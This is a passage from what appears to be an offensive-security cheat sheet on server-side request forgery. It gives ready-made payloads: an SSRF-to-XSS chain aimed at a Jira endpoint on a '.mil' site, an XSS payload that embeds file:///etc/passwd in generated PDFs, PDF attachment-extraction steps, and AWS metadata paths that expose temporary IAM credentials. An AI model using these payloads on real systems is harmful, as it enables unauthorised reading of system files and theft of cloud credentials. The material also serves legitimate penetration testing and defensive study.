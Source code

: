 - [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
- [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)
- [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
- [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
- [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)

**Possible via Gopher**
- [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
- [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
- [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)


## SSRF to XSS 

by [@D0rkerDevil & @alyssa.o.herrera](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)

```bash
http://brutelogic.com.br/poc.svg -> simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
```

## SSRF from XSS

### Using an iframe

The content of the file will be integrated inside the PDF as an image or text.

```html
<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```

### Using an attachment

Example of a PDF attachment using HTML 

1. use `<link rel=attachment href="URL">` as Bio text
2. use 'Download Data' feature to get PDF
3. use `pdfdetach -saveall filename.pdf` to extract embedded resource
4. `cat attachment.bin`

## SSRF URL for Cloud Instances

### SSRF URL for AWS Bucket

[Docs](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)
Interesting path to look for at `http://169.254.169.254` or `http://instance-data`

```powershell
Always here : /latest/meta-data/{hostname,public-ipv4,...}
User data (startup script for auto-scaling) : /latest/user-data
Temporary AWS credentials : /latest/meta-data/iam/security-credentials/
```
